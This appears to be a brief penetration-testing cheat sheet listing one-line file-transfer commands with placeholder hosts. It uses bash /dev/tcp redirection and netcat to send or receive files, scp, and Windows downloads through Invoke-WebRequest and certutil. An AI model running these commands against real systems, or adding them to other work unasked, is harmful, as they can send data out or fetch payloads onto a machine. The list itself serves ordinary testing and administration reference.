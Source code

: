 # Files Transfer
## Bash with Netcat listener
Upload:
`bash -c 'cat <FILE> > /dev/tcp/<IP>/<PORT>'`
`nc -lnvp <PORT> > <FILE>`

Download:
`bash -c 'cat < /dev/tcp/<IP>/<PORT> > <FILE>'`
`nc -lnvp <PORT> < <FILE>`

## Netcat
`nc -q 0 <IP> <PORT> < <FILE>` (sender)
`nc -lnvp <PORT> > <FILE>` (receiver)

## SCP (SSH)
Upload:
`scp <FILE> <USER>@<IP>:<FILE> -P <PORT>`

Download:
`scp <USER>@<IP>:<FILE> -P <PORT>`

## HTTP download
`Invoke-WebRequest "http://<IP>/<FILE>" -OutFile "<FILE>"`
`certutil -urlcache -f http://<IP>/<FILE> <FILE>`